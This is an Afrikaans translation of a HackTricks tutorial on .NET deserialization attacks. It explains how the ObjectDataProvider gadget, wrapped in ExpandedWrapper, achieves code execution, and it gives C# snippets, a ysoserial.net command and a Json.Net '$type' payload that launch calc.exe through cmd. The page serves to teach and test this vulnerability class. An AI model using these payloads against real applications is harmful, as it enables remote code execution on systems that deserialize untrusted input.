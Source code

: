 # Basiese .Net deserialisering (ObjectDataProvider gadget, ExpandedWrapper, en Json.Net)

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Werk jy in 'n **cybersecurity-maatskappy**? Wil jy jou **maatskappy adverteer in HackTricks**? Of wil jy toegang hê tot die **nuutste weergawe van die PEASS of laai HackTricks in PDF af**? Kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Sluit aan by die** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** my op **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die [hacktricks repo](https://github.com/carlospolop/hacktricks) en [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

Hierdie pos is gewy aan **verstaan hoe die gadget ObjectDataProvider uitgebuit word** om RCE te verkry en **hoe** die Serialisering-biblioteke **Json.Net en xmlSerializer misbruik kan word** met daardie gadget.

## ObjectDataProvider Gadget

Volgens die dokumentasie: _die ObjectDataProvider-klas wikkel en skep 'n voorwerp wat jy as 'n bindbron kan gebruik_.\
Ja, dit is 'n vreemde verduideliking, so laat ons kyk wat hierdie klas het wat so interessant is: Hierdie klas maak dit moontlik om **'n willekeurige voorwerp te wikkel**, gebruik _**MethodParameters**_ om **willekeurige parameters in te stel**, en dan **MethodName te gebruik om 'n willekeurige funksie** van die willekeurige voorwerp aan te roep wat gedeclareer is met die willekeurige parameters.\
Daarom sal die willekeurige **voorwerp** 'n **funksie uitvoer** met **parameters terwyl dit gedeserialiseer word.**

### **Hoe is dit moontlik**

Die **System.Windows.Data**-naamruimte, wat binne die **PresentationFramework.dll** gevind word by `C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF`, is waar die ObjectDataProvider gedefinieer en geïmplementeer word.

Met behulp van [**dnSpy**](https://github.com/0xd4d/dnSpy) kan jy die kode van die klas wat ons belangstel, **ondersoek**. In die onderstaande prentjie sien ons die kode van **PresentationFramework.dll --> System.Windows.Data --> ObjectDataProvider --> Method name**

![](<../../.gitbook/assets/image (299).png>)

Soos jy kan sien, wanneer `MethodName` ingestel word, word `base.Refresh()` geroep, laat ons kyk wat dit doen:

![](<../../.gitbook/assets/image (300).png>)

Ok, laat ons voortgaan om te sien wat `this.BeginQuery()` doen. `BeginQuery` word oorskryf deur `ObjectDataProvider` en dit is wat dit doen:

![](<../../.gitbook/assets/image (301).png>)

Let daarop dat aan die einde van die kode `this.QueryWorke(null)` geroep word. Laat ons kyk wat dit uitvoer:

![](<../../.gitbook/assets/image (302) (1).png>)

Let daarop dat hierdie nie die volledige kode van die funksie `QueryWorker` is nie, maar dit wys die interessante deel daarvan: Die kode **roep `this.InvokeMethodOnInstance(out ex);`** dit is die lyn waar die **ingestelde metode aangeroep** word.

As jy wil nagaan dat slegs deur die _**MethodName**_\*\* in te stel, dit uitgevoer sal word\*\*, kan jy hierdie kode uitvoer:
```java
using System.Windows.Data;
using System.Diagnostics;

namespace ODPCustomSerialExample
{
class Program
{
static void Main(string[] args)
{
ObjectDataProvider myODP = new ObjectDataProvider();
myODP.ObjectType = typeof(Process);
myODP.MethodParameters.Add("cmd.exe");
myODP.MethodParameters.Add("/c calc.exe");
myODP.MethodName = "Start";
}
}
}
```
Let daarop dat jy as verwysing _C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll_ moet byvoeg om `System.Windows.Data` te laai.

## ExpandedWrapper

Met die vorige uitbuiting sal daar gevalle wees waar die **object** as 'n _**ObjectDataProvider**_-instantie **gedeserializeer sal word** (byvoorbeeld in die DotNetNuke vuln, waar die object gedeserializeer is deur `GetType` te gebruik met XmlSerializer). Dan sal daar **geen kennis wees van die tipe van die object wat ingesluit is** in die _ObjectDataProvider_-instantie (byvoorbeeld `Process`). Jy kan meer [inligting oor die DotNetNuke vuln hier vind](https://translate.google.com/translate?hl=en\&sl=auto\&tl=en\&u=https%3A%2F%2Fpaper.seebug.org%2F365%2F\&sandbox=1).

Hierdie klas maak dit moontlik om die objektippe van die objekte wat ingesluit is in 'n gegewe instantie **te spesifiseer**. Hierdie klas kan dus gebruik word om 'n bronobjek (_ObjectDataProvider_) in 'n nuwe objektippe in te sluit en die eienskappe wat ons nodig het (_ObjectDataProvider.MethodName_ en _ObjectDataProvider.MethodParameters_) te voorsien.\
Dit is baie nuttig vir gevalle soos die een wat voorheen aangebied is, omdat ons in staat sal wees om **\_ObjectDataProvider**_\*\* binne 'n \*\*_**ExpandedWrapper** \_ instantie te **verpak** en **wanneer dit gedeserializeer word**, sal hierdie klas die _**OjectDataProvider**_ objek skep wat die **funksie** wat in _**MethodName**_ aangedui is, **uitvoer**.

Jy kan hierdie verpakker toets met die volgende kode:
```java
using System.Windows.Data;
using System.Diagnostics;
using System.Data.Services.Internal;

namespace ODPCustomSerialExample
{
class Program
{
static void Main(string[] args)
{
ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
myExpWrap.ProjectedProperty0.ObjectInstance = new Process();
myExpWrap.ProjectedProperty0.MethodParameters.Add("cmd.exe");
myExpWrap.ProjectedProperty0.MethodParameters.Add("/c calc.exe");
myExpWrap.ProjectedProperty0.MethodName = "Start";
}
}
}
```
## Json.Net

In die [amptelike webwerf](https://www.newtonsoft.com/json) word aangedui dat hierdie biblioteek dit moontlik maak om **enige .NET-object te serializeer en deserialiseer met Json.NET se kragtige JSON-serializer**. Dus, as ons die ObjectDataProvider gadget kon **deserialiseer**, kon ons 'n **RCE** veroorsaak deur net 'n voorwerp te deserialiseer.

### Json.Net-voorbeeld

Eerstens, laat ons 'n voorbeeld sien van hoe om 'n voorwerp te **serializeer/deserializeer** met behulp van hierdie biblioteek:
```java
using System;
using Newtonsoft.Json;
using System.Diagnostics;
using System.Collections.Generic;

namespace DeserializationTests
{
public class Account
{
public string Email { get; set; }
public bool Active { get; set; }
public DateTime CreatedDate { get; set; }
public IList<string> Roles { get; set; }
}
class Program
{
static void Main(string[] args)
{
Account account = new Account
{
Email = "james@example.com",
Active = true,
CreatedDate = new DateTime(2013, 1, 20, 0, 0, 0, DateTimeKind.Utc),
Roles = new List<string>
{
"User",
"Admin"
}
};
//Serialize the object and print it
string json = JsonConvert.SerializeObject(account);
Console.WriteLine(json);
//{"Email":"james@example.com","Active":true,"CreatedDate":"2013-01-20T00:00:00Z","Roles":["User","Admin"]}

//Deserialize it
Account desaccount = JsonConvert.DeserializeObject<Account>(json);
Console.WriteLine(desaccount.Email);
}
}
}
```
### Misbruik van Json.Net

Deur gebruik te maak van [ysoserial.net](https://github.com/pwntester/ysoserial.net) het ek die uitbuiting geskep:
```java
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "calc.exe"
{
'$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
'MethodName':'Start',
'MethodParameters':{
'$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
'$values':['cmd', '/c calc.exe']
},
'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
In hierdie kode kan jy die uitbuit toets, voer dit net uit en jy sal sien dat 'n rekenaar uitgevoer word:
```java
using System;
using System.Text;
using Newtonsoft.Json;

namespace DeserializationTests
{
class Program
{
static void Main(string[] args)
{
//Declare exploit
string userdata = @"{
'$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
'MethodName':'Start',
'MethodParameters':{
'$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
'$values':['cmd', '/c calc.exe']
},
'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}";
//Exploit to base64
string userdata_b64 = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(userdata));

//Get data from base64
byte[] userdata_nob64 = Convert.FromBase64String(userdata_b64);
//Deserialize data
string userdata_decoded = Encoding.UTF8.GetString(userdata_nob64);
object obj = JsonConvert.DeserializeObject<object>(userdata_decoded, new JsonSerializerSettings
{
TypeNameHandling = TypeNameHandling.Auto
});
}
}
}
```
<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Werk jy in 'n **cybersecurity-maatskappy**? Wil jy jou **maatskappy adverteer in HackTricks**? Of wil jy toegang hê tot die **nuutste weergawe van die PEASS of laai HackTricks in PDF af**? Kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Sluit aan by die** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** my op **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die [hacktricks repo](https://github.com/carlospolop/hacktricks) en [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
